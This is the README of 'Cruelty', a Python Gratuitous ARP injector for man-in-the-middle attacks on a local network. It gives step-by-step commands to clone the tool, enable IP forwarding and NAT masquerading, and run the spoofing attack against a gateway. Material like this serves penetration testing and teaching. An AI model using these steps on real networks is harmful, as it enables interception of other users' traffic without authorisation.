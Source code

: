 # Cruelty
Gratuitous ARP Injector

```
python3 Cruelty.py --help                                                                                                                     
                                                                                                     
Gratuitous ARP Injector
Author: Caster, @c4s73r, <c4s73r@protonmail.com>

usage: Cruelty.py [-h] --gateway GATEWAY --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --gateway GATEWAY     Choose gateway IP address
  --interface INTERFACE
                        Choose your interface for attack
  --mac EVILMAC         Specify your MAC Address
```

## Mechanics
It is a modification of ARP spoofing. The script will shout at the entire channel segment that your computer is the default gateway by sending Gratuitous ARP messages.
Gratuitous ARP is a special ARP frame that sends out an announcement that a new binding of MAC address and IP address has occurred. This can be used by an attacker to conduct an MITM attack, run a script against the router's IP address.

The scanner waits for the following arguments as input:
  - network interface (--interface)
  - your MAC Address (--mac)
  - IP address of gateway (--gateway)
  
## How to use it

1. Install dependencies
```
git clone https://github.com/c4s73r/Cruelty
sudo pip3 install -r requirements.txt
```
2. Enable Forwarding, MASQUERADE, NAT Helper 
```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUERADE
sudo modprobe nf_conntrack
echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
3. Attack
```
sudo python3 Cruelty.py --interface ethX --mac XX:XX:XX:XX:XX:XX --gateway <GW IP>
```
## Limitations
This attack is very noisy.
The tool does not restore the structure of ARP tables by itself. After the attack stops, the gateway's MAC address on the clients will change only after 5 minutes. Understand how ARP works.
GARP frames are sent every 800 ms. You can edit the script code and change the delay before sending the next frame, but be careful. There is a chance to strigger the Storm-Control system.
